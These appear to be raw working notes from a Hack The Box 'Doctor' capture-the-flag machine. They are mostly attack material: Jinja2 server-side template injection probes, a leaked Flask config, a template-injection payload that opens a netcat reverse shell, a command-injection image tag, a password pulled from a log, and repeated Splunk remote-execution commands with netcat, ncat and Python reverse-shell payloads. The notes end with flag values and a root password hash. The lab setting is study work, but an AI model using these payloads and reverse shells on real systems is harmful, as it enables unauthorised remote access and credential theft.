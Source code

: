  10.10.10.209 

info@doctors.htb

Jade Guzman
Hannah Ford
James Wilson
 
Elizabeth Anderson, Hostpital Patients 


change /etc/hosts from doctor.htb to doctors.htb


```
<div class="collapse navbar-collapse" id="navbarToggle">
            <div class="navbar-nav mr-auto">
              <a class="nav-item nav-link" href="/home">Home</a>
              <!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
            </div>
            <!-- Navbar Right Side -->
            <div class="navbar-nav">
```


POST /post/new HTTP/1.1
Host: doctors.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://doctors.htb
Connection: close
Referer: http://doctors.htb/post/new
Cookie: session=.eJwljjFqBDEMAP_iOoUkW5J1n1lkySIhkMDuXRXy9yyknCmG-WlHnft6b4_n-dpv7fjI9mgOXaJwYQQMYgwQTsFJo6y0syUl2yZKtRUdh2BNdZShGIqrxGepETHMYplpSHdpgUb5wDvclc2HaWWuPQGQvXeQFTFyYLtHXtc-_2_oxrjOOp7fn_vrFmw2ObcmsrIbpZHwlOQom7LJHTwZVvv9Ay2-PgA.X-UpCA.y5DS_9yX7uwSkitSbGisAjZPFjs; remember_token=2|c158651ba50229ecb07b763d503094500b9525ec9aef9d410aa3e3ad758a70402054f520cb62858aa4566d01a16eb0fba9b538426d7f476eddf0e758da9a3684
Upgrade-Insecure-Requests: 1

title=test&content=test&submit=Post



	<?xml version="1.0" encoding="UTF-8" ?>
	<rss version="2.0">
	<channel>
 	<title>Archive</title>
 	<item><title>25</title></item>

			</channel>
			<item><title>${7*7}</title></item>

			</channel>
			<item><title>49</title></item>

			</channel>
			
{{5*5}}
<item><title>25</title></item>


{{7*'7'}}
 </channel>
			<item><title>7777777</title></item>

			</channel>
			
^ that means template being used is jinja2, ssti

the webpage is also running flask, googling flask exploits gives us with ssti

https://portswigger.net/research/server-side-template-injection


			<item><title>dict_items([(&#39;ENV&#39;, &#39;production&#39;), (&#39;DEBUG&#39;, False), (&#39;TESTING&#39;, False), (&#39;PROPAGATE_EXCEPTIONS&#39;, None), (&#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;, None), (&#39;SECRET_KEY&#39;, &#39;1234&#39;), (&#39;PERMANENT_SESSION_LIFETIME&#39;, datetime.timedelta(days=31)), (&#39;USE_X_SENDFILE&#39;, False), (&#39;SERVER_NAME&#39;, None), (&#39;APPLICATION_ROOT&#39;, &#39;/&#39;), (&#39;SESSION_COOKIE_NAME&#39;, &#39;session&#39;), (&#39;SESSION_COOKIE_DOMAIN&#39;, False), (&#39;SESSION_COOKIE_PATH&#39;, None), (&#39;SESSION_COOKIE_HTTPONLY&#39;, True), (&#39;SESSION_COOKIE_SECURE&#39;, False), (&#39;SESSION_COOKIE_SAMESITE&#39;, None), (&#39;SESSION_REFRESH_EACH_REQUEST&#39;, True), (&#39;MAX_CONTENT_LENGTH&#39;, None), (&#39;SEND_FILE_MAX_AGE_DEFAULT&#39;, datetime.timedelta(seconds=43200)), (&#39;TRAP_BAD_REQUEST_ERRORS&#39;, None), (&#39;TRAP_HTTP_EXCEPTIONS&#39;, False), (&#39;EXPLAIN_TEMPLATE_LOADING&#39;, False), (&#39;PREFERRED_URL_SCHEME&#39;, &#39;http&#39;), (&#39;JSON_AS_ASCII&#39;, True), (&#39;JSON_SORT_KEYS&#39;, True), (&#39;JSONIFY_PRETTYPRINT_REGULAR&#39;, False), (&#39;JSONIFY_MIMETYPE&#39;, &#39;application/json&#39;), (&#39;TEMPLATES_AUTO_RELOAD&#39;, None), (&#39;MAX_COOKIE_SIZE&#39;, 4093), (&#39;MAIL_PASSWORD&#39;, &#39;doctor&#39;), (&#39;MAIL_PORT&#39;, 587), (&#39;MAIL_SERVER&#39;, &#39;&#39;), (&#39;MAIL_USERNAME&#39;, &#39;doctor&#39;), (&#39;MAIL_USE_TLS&#39;, True), (&#39;SQLALCHEMY_DATABASE_URI&#39;, &#39;sqlite://///home/web/blog/flaskblog/site.db&#39;), (&#39;WTF_CSRF_CHECK_DEFAULT&#39;, False), (&#39;SQLALCHEMY_BINDS&#39;, None), (&#39;SQLALCHEMY_NATIVE_UNICODE&#39;, None), (&#39;SQLALCHEMY_ECHO&#39;, False), (&#39;SQLALCHEMY_RECORD_QUERIES&#39;, None), (&#39;SQLALCHEMY_POOL_SIZE&#39;, None), (&#39;SQLALCHEMY_POOL_TIMEOUT&#39;, None), (&#39;SQLALCHEMY_POOL_RECYCLE&#39;, None), (&#39;SQLALCHEMY_MAX_OVERFLOW&#39;, None), (&#39;SQLALCHEMY_COMMIT_ON_TEARDOWN&#39;, False), (&#39;SQLALCHEMY_TRACK_MODIFICATIONS&#39;, None), (&#39;SQLALCHEMY_ENGINE_OPTIONS&#39;, {})])</title></item>


{{config.__class__.__init__.__globals__['os'].system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.83 1234 >/tmp/f')}}

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f

<img src=http://10.10.14.156/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.14.156'$IFS'8000')>
found user shaun

cd /var/log/apache2/backup
10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#tools


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

python3 PySplunkWhisperer2_remote.py --host 10.10.10.209  --lhost 10.10.14.176  --username shaun --password Guitar123 --payload 'nc.traditional -e/bin/sh '10.10.14.156' '6789''
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.156 --username shaun --password Guitar123 --payload 'nc -e /bin/sh 10.10.14.156 6789'

python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.156 --username shaun --password Guitar123 --payload 'nc -e /bin/sh 10.10.14.156 6789'



python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.156 --username shaun --password Guitar123 --payload 'ncat 10.10.14.156 4242 -e /bin/bash'
nc -e /bin/sh 10.0.0.1 4242

python3 PySplunkWhisperer2_remote.py --host 10.10.10.209  --lhost 10.10.14.156  --username shaun --password Guitar123 --payload 'nc.traditional -e /bin/sh 10.10.14.156 4242'
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209  --lhost 10.10.14.156  --username shaun --password Guitar123 --payload 'nc -e /bin/sh 10.10.14.156 4242'

python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.176 --username shaun --password Guitar123 --payload 'python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.176",2345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")''

10.10.14.176







ncat 10.10.14.156 4242 -e /bin/bash

nc -l -p 12345


nc -e /bin/sh 10.0.0.1 4242
nc -e /bin/bash 10.0.0.1 4242
nc -c bash 10.0.0.1 4242

root
8297ad3b42d602c8c55e2e7326e599fc


e553bb3ed95747783983736bf4190114


root:$6$384TbSO3bB1PWLT1$U8U.j.zBLXobhorPDxOMRZh4eE86lcn7C0dvqRvfJ9qDzreti8HDvXwFZccDat9/HJRNwu04ErVxo3mUwVbs5.:18512:0:99999:7:::
